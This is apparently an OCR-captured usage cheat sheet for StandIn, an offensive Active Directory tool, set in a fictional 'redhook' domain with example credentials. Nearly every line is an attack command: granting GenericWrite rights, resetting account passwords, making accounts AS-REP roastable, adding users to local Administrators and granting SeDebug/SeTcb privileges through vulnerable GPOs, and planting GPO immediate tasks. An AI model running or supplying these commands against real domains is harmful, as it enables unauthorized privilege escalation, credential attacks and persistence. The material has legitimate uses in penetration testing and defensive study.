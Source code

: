 ```
StandIn.exe --object samaccountname=SomeTarget001$ --grant "REDHOOK\MBWillett" --type GenericWrite --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Set object password
StandIn.exe --object samaccountname=SomeTarget001$ --newpass "Arkh4mW1tch!"
StandIn.exe --object samaccountname=BJenkin --newpass "Dr34m1nTh3H#u$e" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add ASREP to userAccountControl flags
StandIn.exe --object samaccountname=HArmitage --asrep
StandIn.exe --object samaccountname=FMorgan --asrep --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Remove ASREP from userAccountControl flags
StandIn.exe --object samaccountname=TMalone --asrep --remove
StandIn.exe --object samaccountname=RSuydam --asrep  --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all ASREP roastable accounts
StandIn.exe --asrep
StandIn.exe --asrep --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Return GPO objects, optionally wildcard filter and get ACL's
StandIn.exe --gpo --limit 20
StandIn.exe --gpo --filter admin --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --gpo --filter admin --acl --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add samAccountName to BUILTIN\Administrators for vulnerable GPO
StandIn.exe --gpo --filter ArcanePolicy --localadmin JCurwen
StandIn.exe --gpo --filter ArcanePolicy --localadmin JCurwen --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add token rights to samAccountName in a vulnerable GPO
StandIn.exe --gpo --filter ArcanePolicy --setuserrights JCurwen --grant "SeTcbPrivilege,SeDebugPrivilege"
StandIn.exe --gpo --filter ArcanePolicy --setuserrights JCurwen --grant SeLoadDriverPrivilege --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add user/computer immediate task and optionally filter
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt"
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --target Rllyeh.redhook.local
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype user --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --target "REDHOOK\RBloch" --targetsid S-1-5-21-315358687-3711474269-2098994107-1106
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Increment either the user or computer GPO version number for the AD object
StandIn.exe --gpo --filter ArcanePolicy --increase --tasktype user
StandIn.exe --gpo --filter ArcanePolicy --increase --tasktype computer --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Read Default Domain Policy
StandIn.exe --policy
StandIn.exe --policy --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Perform ADIDNS searches
StandIn.exe --dns --limit 20
```